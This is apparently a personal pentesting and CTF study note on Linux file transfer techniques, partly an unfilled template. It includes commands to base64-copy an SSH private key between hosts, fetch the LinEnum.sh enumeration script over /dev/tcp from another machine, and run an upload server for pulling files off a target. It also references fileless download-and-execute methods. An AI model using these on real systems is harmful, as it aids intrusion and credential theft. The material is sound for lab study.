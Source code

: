 # Linux File Transfer

## Overview

What this technique is and when I need it

## Downloading

### Base64 Encoding

**Step 1:** Check the MD5 hash of the contents.
```bash
md5sum id_rsa
```

**Step 2:** Encode contents to base64 and copy it to clipboard.
```bash
cat id_rsa | base64 -w 0; echo
```

**Step 3:** On the second Linux machine, decode the Base64 file content.
```bash
echo -n 'encoded' | base64 -d > id_rsa
```

**Step 4:** Confirm the MD5 hash matches.
```bash
md5sum id_rsa
```

### wget

#### Method 1: Download

Download a file.
![[wget#^simple-download]]

#### Method 2: Download - Fileless

Download and execute a file in memory (fileless).
![[wget#^fileless-download]]

### cURL

#### Method 1: Download

Download a file.
![[curl#^simple-download]]

#### Method 2: Download - Fileless

Download and execute a file in memory (fileless).
![[curl#^fileless-download]]

### Bash

#### Method 1: /dev/tcp

**Step 1:** Connect to the target webserver.
```bash
exec 3<>/dev/tcp/10.10.10.32/80
```

**Step 2:** Send a HTTP GET request for the file.
```bash
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```

**Step 3:** Print the response.
```bash
cat <&3
```

### SSH

#### Method 1: SCP

![[SCP#^download-file-from-linux]]

### Code
#### Method 1: Python

**Step 1:** Create a webserver
![[Python#^python3-webserver]]

**Step 2:** Download a file.
![[Python#^download-remote-file]]

#### Method 2: PHP

**Step 1:** Create a webserver.
![[PHP#^create-webserver]]

**Step 2:** Download a file.
![[PHP#^download-remote-file]]

#### Method 3: Ruby

**Step 1:** Create a webserver.
![[ruby#^create-webserver]]

**Step 2:** Download a file.
![[ruby#^download-remote-file]]

#### Method 4: Perl

**Step 1:** Create a webserver.
![[Perl#^create-webserver]]

**Step 2:** Download a file.
![[Perl#^download-remote-file]]


## Uploading

### HTTP

#### Method 1: uploadserver

**Step 1:** Create a Self-Signed Certificate
```bash
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```

**Step 2:** Start the webserver
```bash
mkdir www && cd www; sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
```

**Step 3:** Upload files.
![[curl#^upload-multiple-files-insecure]]

### SSH

#### Method 1: SCP

![[SCP#^upload-file-to-linux]]

### Python

#### Method 1: uploadserver

**Step 1:** Start the webserver
![[Python#^uploadserver]]

**Step 2:** Upload a file.
![[Python#^upload-file]]


## Practical Examples

Real-world scenarios where I've used this

## Troubleshooting

- Common issues I've encountered
- Things that break this technique
- Environment-specific considerations

## Related Techniques

- [[Similar-Technique]] - How they differ
- [[Follow-up-Technique]] - What comes next

## CTF Examples

```dataview
TABLE file.name as "Box", choice(contains(file.tags, "easy"), "🟢", choice(contains(file.tags, "medium"), "🟡", "🔴")) as "Diff"
FROM "06-CTF-Writeups" AND #linux-file-transfer
SORT file.ctime DESC
LIMIT 5
```

## Learning Resources

- 

#linux-file-transfer #technique